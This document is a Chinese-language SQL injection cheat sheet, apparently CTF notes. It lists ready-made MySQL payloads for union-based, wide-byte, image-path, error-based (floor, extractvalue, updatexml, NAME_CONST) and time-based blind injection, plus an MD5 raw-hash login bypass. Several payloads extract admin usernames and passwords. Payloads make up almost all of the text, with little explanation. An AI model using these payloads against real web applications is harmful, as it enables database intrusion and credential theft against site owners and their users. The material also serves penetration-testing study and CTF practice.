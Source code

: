
# sql注入

* 常识
* sql注入
* 宽字节注入
* 图片注入
* Mysql 报错注入
* 盲注
* head注入
* MD5绕过

## 常识
*  limit 条件
> limit 关键字后面还有 PROCEDURE 和 INTO 关键字，into 关键字可以用来写文件，但这在本文中不重要，这里的重点是 PROCEDURE 关键字.MySQL 默认可用的存储过程只有 ANALYSE (doc)。

```
//看版本
?start=0 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)%23
//数据库 mydbs 表
?start=0 procedure analyse(extractvalue(rand(),concat(0x3a,(select distinct concat(0x3f,table_name,0x3f) from information_schema.tables where table_schema=0x6d79646273 limit 0,1))),1)%23
//读字段名
?start=0 procedure analyse(extractvalue(rand(),concat(0x3a,(select distinct concat(0x3f,column_name,0x3f) from information_schema.columns where table_name=0x61727469636c65 and table_schema=0x6d79646273 limit 0,1))),1)%23
//读内容
?start=0 procedure analyse(extractvalue(rand(),concat(0x3a,(select distinct concat(0x3f,username,0x3a,password,0x3f) from mydbs.user limit 2,1))),1)%23
```

## sql注入
``` 
?id=1 and 1=1  
?id=1 order by 10  
?id=1 union select 1,2,3  
// 获取数据库名，当前用户
?id=1 union select 1,database(),user()
// 获取数据库名
?id=1 union select 1,group_concat(SCHEMA_NAME),3 from information_schema.SCHEMATA
// 获取数据库表  
?id=1 union select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES where TABLE_SCHEMA = 'mydbs'
// 根据获取的数据库表获取表名  
?id=1 union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME = 'sae_user_sqli3'
// 获取表中的内容（也可以union 获取表中数据）  
?id=1 union select 1,group_concat(content),3 from sae_user_sqli3
```


## 宽字节注入

> ?id=3%df%27order by 3%23  
> ?id=3%df%27%20union%20select%201,2,3%23  
> ?id=3%df%27%20union%20select%201,user(),database()%23  
> ?id=3%df%27%20union%20select%201,2,table_name%20from%20information_schema.tables%20where%20table_schema=0x6d79646273%23    
> ?id=3%df%27%20union select 1,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x7361655f757365725f73716c6934%20and%20table_schema=0x6d79646273%23    
> ?id=3%df%27%20union%20select%201,group_concat%28title_1%29,group_concat%28content_1%29%20from%20mydbs%2esae_user_sqli4%23  


## 图片注入

``` 
//报错
GET /sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/cat1.jpg%bf' HTTP/1.1

//order by 5 报错，共有4个字段
GET /sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/cat1.jpg%df%27%20order%20by%205%23 HTTP/1.1

//看显示位，3
GET /sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/cat1.jpg%df%27%20union%20select%201,2,3,4%23 HTTP/1.1

//当前数据库 mydbs
GET /sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/cat1.jpg%df%27%20union%20select%201,2,database(),4%23 HTTP/1.1

//看表名 article pic
GET /sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/cat1.jpg%df%27%20union%20select%201,2,group_concat(table_name),4%20from%20information_schema.tables%20where%20table_schema=0x6d79646273%23 HTTP/1.1

//看字段 article表id,title,content,others  pic表id,picname,data,text
GET /sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/cat1.jpg%df%27%20union%20select%201,2,group_concat(column_name),4%20from%20information_schema.columns%20where%20table_name=0x61727469636c65%23 HTTP/1.1

//查看picname dog1.jpg,cat1.jpg,flagishere_askldjfklasjdfl.jpg
GET /sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/cat1.jpg%df%27%20union%20select%201,2,group_concat(picname),4%20from%20pic%23 HTTP/1.1
```


## MySQL报错注入

* 通过floor暴错
``` 
/*数据库版本*/
?id=1+and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

/*简单办法暴库*/
?id=info()

/*连接用户*/
?id=1+and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

/*连接数据库*/
?id=1+and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

/*暴库*/
?id=1+and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

/*暴表*/
?id=1+and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

/*暴字段*/
?id=1+and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x61646D696E LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

/*暴内容*/
?id=1+and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

* ExtractValue(有长度限制,最长32位)
```
?id=1+and extractvalue(1, concat(0x7e, (select @@version),0x7e))

?id=1+and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)))
```

* UpdateXml(有长度限制,最长32位)
``` 
?id=1+and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

?id=1+and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)
```

* NAME_CONST(适用于低版本)
``` 
?id=330&sid=19&cid=261+and+1=(select+*+from+(select+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--
```

* Error based Double Query Injection 
``` 
?id=1+or+1+group+by+concat_ws(0x7e,version(),floor(rand(0)*2))+having+min(0)+or+1
```


## 盲注

``` 
// 判断是否存在盲注
?username=admin' and sleep(3) %23
```

## head注入


## MD5绕过

> MD5("123456")------>e10adc3949ba59abbe56e057f20f883e        //正常的
  MD5("123456",ture)------>� �9I�Y��V�W���>    //出来的就是一堆乱码，（乱码可以绕过这里的查询）
  如果出来的乱码中有 'or' ，那么就可以直接使查询语句变为：  
      where usrid='XXX' and password='      '  or'  //垃圾'
``` 
?userid=1&pwd=ffifdyop
?userid=1&pwd=129581926211651571912466741651878684928
```
